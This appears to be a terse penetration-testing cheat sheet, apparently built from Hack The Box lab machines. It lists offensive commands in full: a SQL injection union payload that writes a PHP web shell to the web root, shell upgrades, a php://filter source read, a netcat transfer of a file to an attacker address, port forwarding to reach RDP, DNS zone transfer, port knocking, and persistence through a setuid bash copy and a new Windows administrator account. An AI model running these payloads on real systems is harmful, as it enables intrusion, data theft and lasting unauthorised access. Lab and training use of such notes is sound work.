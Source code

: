 ## sqlcmd
  ```
  sqlcmd -S sequel.htb -U PublicUser -P GuestUserCantWrite1
  ```
## unionselectshell
  ```
  ' union select "<?php system($_REQUEST['cmd']) ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
  ```
## shell
  ```
  python -c 'import pty; pty.spawn("/bin/bash")'
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
## phpfilter
  ```
  php://filter/convert.base64-encode/resource=index.php
  ```
## transferfiles
  ```
  nc 10.10.14.6 9002 < /usr/local/bin/backup
  nc -lvn 9002 > backup
  ```
## ssh
  ```
  ssh-keygen -f "user"
  ```
## metasploit
  ```
  show info
  use action
  ```
## zone transfer(tcp 53)
  ```
  dig axfr @"ip" dns
  nslookup
    server "ip"
    ls -d ctfolympus.htb
  ```
## port knoking
  ```
  nmap -Pn --max-retries=0 -p 3456,8234,62431 10.10.10.83
  ```
## rdp diferent network
  ```
  ssh -L 9001:target:3389 ubuntu@10.129.252.169
  netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
  ```
## persistence
  ```
  cp /bin/bash /tmp/bash; chmod +s /tmp/bash
    /tmp/bash -p
  net user username password  
  net localgroup Administrators username
  ```